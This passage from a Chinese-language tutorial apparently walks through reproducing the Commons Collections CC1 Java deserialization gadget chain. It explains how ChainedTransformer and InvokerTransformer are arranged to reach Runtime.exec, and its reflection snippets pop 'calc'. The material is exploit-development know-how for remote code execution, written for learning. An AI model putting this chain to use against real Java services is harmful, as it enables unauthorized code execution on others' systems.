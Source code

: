 然而运行缺报错了

![](https://i.imgur.com/NRiJWSm.png)


> 原因是 Runtime 类对象不能反序列化

好在 Runtime.class 是可以序列化的，还记得 `InvokerTransformer.transform()` 方法的源码吗？

![](https://i.imgur.com/aTH9nyH.png)

这个方法首先会获取传入的对象的原型类并基于该原型类得到传入的对象所属类的某个方法，最后在传入的对象上调用这个方法并返回。只要传入一个Runtime 类的实例对象，就可以弹计算器。所以现在我们需要在给 InvokerTransform.transform() 方法传入一个 Runtime.class 对象的情况下，通过 ChainedTransformer 得到一个 Runtime 类对象并最终将该对象传入 InvokerTransform.transform() 完成命令执行。

如何实现这一点呢？这是一个有些复杂的问题，也是 CC1 的 POC 中最后的拼图，解决了它就彻底完成了 CC1 的复现。我们肯定是通过 ChainedTransformer 来做到这一点，所以问题的关键点在于如何构造 ChainedTransformer 的 Transformer 数组，使得在多次调用 `InvokerTransformer.transform()` 方法时最终可以传入一个 Runtime 类实例对象。



首先看看如何通过正常的反射得到 Runtime 类对象：

```java=
Class c = Runtime.class;

Method getRuntimeMethod = c.getMethod("getRuntime",null);//方法名、方法的参数类型。因为 getRuntime() 方法是无参方法，所以参数类型为空。
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);//getRuntime 是一个静态的无参方法

Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```
由于传入的是 Runtime.class ，所以会拿到 Runtime.class 的原型类，这也是一个 class 对象，不过是属于 java.lang.Class 的。
根据以上的反射代码，我们是需要获取到 Runtime.class 的 getMethod() 方法，传入的参数是 "getRuntime()"。
Runtime.class.class 的 getMethod() 方法定义如下：

![](https://i.imgur.com/Et7kJ2x.png)


那通过 Runtime.class.class（Runtime.class 的原型类） 获取 Runtime.class.getMethod("getRuntime") 应该这么写：
```java=
Class c = Runtime.class;
System.out.println(c);
System.out.println(c.getClass());

Class c1 = c.getClass();

Method method = c1.getMethod("getMethod",new Class[]{String.class,Class[].class});
Method m2 = (Method)method.invoke(c,new Object[]{"getRuntime",null});

System.out.println( (method.invoke(c,new Object[]{"getRuntime",null})));
System.out.println( (method.invoke(c,new Object[]{"getRuntime",null})).getClass()); // 获取到了 Runtime.class 的 getRuntime 方法
```
![](https://i.imgur.com/OHdDLzi.png)
